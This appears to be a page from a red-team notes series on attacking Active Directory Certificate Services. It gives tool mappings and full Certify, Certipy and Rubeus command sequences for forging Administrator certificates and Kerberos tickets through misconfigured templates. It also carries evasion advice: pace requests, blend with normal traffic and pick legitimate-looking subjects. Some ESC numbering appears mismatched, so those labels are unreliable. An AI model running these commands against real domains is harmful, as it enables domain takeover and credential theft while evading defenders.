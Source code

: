 
---

## 🧰 Quick Reference: Tool Mappings
- Discovery: `certutil`, PowerView (`Get-DomainObject` filters), `Certify.exe cas/find`, `certipy find`
- Request: `Certify.exe request`, `certipy req`
- Auth: `Rubeus.exe asktgt|s4u`, `certipy auth`
- Pivot: Kerberos ticket ptt via `mimikatz`

---

## ⚠️ OPSEC and Detection Notes
- Template enumeration and certificate requests generate logs on CA; pace requests and blend with normal activity
- PKINIT and unusual SAN/UPN values can be flagged; prefer legitimate-looking subjects
- Monitor Event IDs: 4886-4899 (Certification Services), 4769 (TGS), 4771 (Kerberos pre-auth)
- See `11_Detection_Blue_Team.md` and `12_Detection_Red_Team.md` for rules and evasion

---

## ⚔️ Execution (ESC Map)

- ESC1/ESC2/ESC3: EnrolleeSuppliesSubject / ClientAuth EKU
```powershell
# Certify (subject/SAN abuse) → PKINIT with Rubeus
.\Certify.exe find /enrolleeSuppliesSubject
.\Certify.exe request /ca:CA01 /template:User /subject:CN=Administrator /outfile:admin.pfx /password:P@ssw0rd!
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:P@ssw0rd! /outfile:admin.kirbi
```

- ESC4/ESC5: AnyPurpose / EKU misconfig
```powershell
# Certipy flow for client auth where EKU allows logon
certipy find -u user@domain.local -p Passw0rd! -vulnerable
certipy req -u user@domain.local -p Passw0rd! -template User -upn administrator@domain.local -out admin
certipy auth -pfx admin.pfx -username Administrator -domain domain.local -no-pass
```

- ESC6: Enrollment Agent
```powershell
.\Certify.exe find /enrollmentAgent
.\Certify.exe request /ca:CA01 /template:EnrollmentAgent /outfile:ea.pfx /password:P@ssw0rd!
.\Certify.exe request /ca:CA01 /template:User /onbehalfof:administrator@domain.local /enrollcert:ea.pfx /enrollcertpw:P@ssw0rd! /outfile:admin.pfx
```

- ESC7/ESC8: Weak ACLs / CA misconfig
```powershell
# Modify template ACLs (if writable) then follow ESC1/3 flow
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties nTSecurityDescriptor,displayName | \
  ? { $_.nTSecurityDescriptor -match 'WriteDACL|WriteOwner' } | select displayName
```
